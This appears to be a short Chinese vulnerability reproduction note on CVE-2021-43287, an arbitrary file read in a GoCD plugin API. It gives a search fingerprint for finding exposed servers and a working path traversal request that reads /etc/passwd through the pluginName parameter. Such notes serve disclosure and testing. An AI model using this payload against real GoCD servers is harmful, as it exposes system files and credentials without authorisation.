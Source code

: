 # GoCD plugin 任意文件读取漏洞 CVE-2021-43287

## 漏洞描述

GoCD plugin aip 参数中的 pluginName 参数存在任意文件读取漏洞，导致攻击者可以获取服务器中的任意敏感信息

## 漏洞影响

<a-checkbox checked>GoCD</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Create a pipeline - Go"</a-checkbox></br>

## 漏洞复现	

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636434942043-e6504dd1-b77e-4e24-b4d9-53721500b5d7.png)

验证POC

```php
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636435040571-3f50c183-822e-4680-a15c-8d2bf7268161.png)